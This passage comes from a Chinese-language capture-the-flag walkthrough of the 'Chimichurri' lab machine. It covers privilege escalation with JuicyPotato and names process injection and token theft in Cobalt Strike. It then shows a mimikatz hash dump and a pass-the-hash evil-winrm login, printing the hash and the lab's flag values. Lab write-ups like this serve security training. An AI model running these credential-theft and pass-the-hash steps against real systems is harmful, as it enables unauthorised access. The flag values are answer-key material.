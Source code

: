 选择Juicypotato提权
![Pasted image 20241203140042](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241203140042.png)
成功提取到系统

这里还有个问题。获取到了系统权限还不让我看flag，只给管理员权限的用户看看
## 10. 降权
这里需要降权。系统权限降权到管理员很简单、
在cs里面 可以使用**进程注入** 或者**令牌窃取**

这里我采用直接mimikatz抓管理员hash用管理员登录
![Pasted image 20241203142754](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241203142754.png)
```bash
┌──(root㉿kali)-[/home/kali/thl/Chimichurri]
└─# evil-winrm -i 192.168.200.4 -u Administrador -H 058a4c99bab8b3d04a6bd959f95ce2b2

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrador\Documents> whoami
chimichurri0\administrador

*Evil-WinRM* PS C:\Users\Administrador\Documents> type c:\users\administrador\desktop\root.txt
hjafcdv8a75e3cvsdfg6asd4f9vbsf9sa
*Evil-WinRM* PS C:\Users\Administrador\Documents> type c:\users\hacker\desktop\user.txt
acrsgvs6edr8f5vaw9a8eadv6fa9b

```
> 注意这比西班牙语的管理员名字与英语的管理员有区别

